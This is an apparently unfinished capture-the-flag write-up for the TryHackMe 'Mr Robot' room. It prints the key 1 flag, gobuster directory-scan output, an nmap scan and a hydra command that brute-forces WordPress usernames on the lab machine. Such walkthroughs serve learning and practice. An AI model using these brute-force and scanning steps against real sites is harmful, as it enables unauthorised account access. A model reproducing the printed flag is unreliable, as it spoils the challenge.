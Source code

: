 ```yaml
---
title:  "TryHackMe | Mr Robot"
layout: post

---
```


# TryHackMe | Mr Robot CTF



## What is key 1?

the hint says: robots

we nagivate to http://10.10.63.240/robots.txt and get this

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
go to:

http://10.10.63.240/key-1-of-3.txt

ans: 073403c8a58a1f80d943455fb30724b9

## What is key 2?

we use gobuster to discover this is a wordpress website with a wp-login page

```
kali@kali:~/Downloads$ gobuster dir -u http://10.10.63.240:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.63.240:80
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/22 03:56:59 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/rss (Status: 200)
/sitemap (Status: 200)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 200)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 200)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 200)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 200)
/page1 (Status: 200)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
/%20 (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 403)
/0000 (Status: 301)
Progress: 12561 / 220561 (5.70%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/07/22 04:09:21 Finished
===============================================================
```

download the fsocity.dic file from 10.10.63.240/fsociety.doc

We open up fsociety.doc - it could be a list of usernames. Maybe we can try to brute force the username of the wordpress login using hydra

First we need to get the htt-post-form from burpsuite

![Github](./images/wigle.png)

-L specifies a word list of usernames
-p specifies a dummy password of "test"

http-post-form 



```console
hydra -L fsocity.dic -p test 10.10.116.182 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.116.182%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

## What is key 3?

the hint says: nmap

```console
kali@kali:~/Downloads$ nmap -sV -v -Pn -n -p80,443 10.10.63.240
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 03:15 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 03:15
Scanning 10.10.63.240 [2 ports]
Discovered open port 80/tcp on 10.10.63.240
Discovered open port 443/tcp on 10.10.63.240
Completed Connect Scan at 03:15, 0.40s elapsed (2 total ports)
Initiating Service scan at 03:15
Scanning 2 services on 10.10.63.240
Completed Service scan at 03:15, 14.39s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.63.240.
Initiating NSE at 03:15
Completed NSE at 03:15, 3.53s elapsed
Initiating NSE at 03:15
Completed NSE at 03:15, 3.20s elapsed
Nmap scan report for 10.10.63.240
Host is up (0.40s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.24 seconds
```
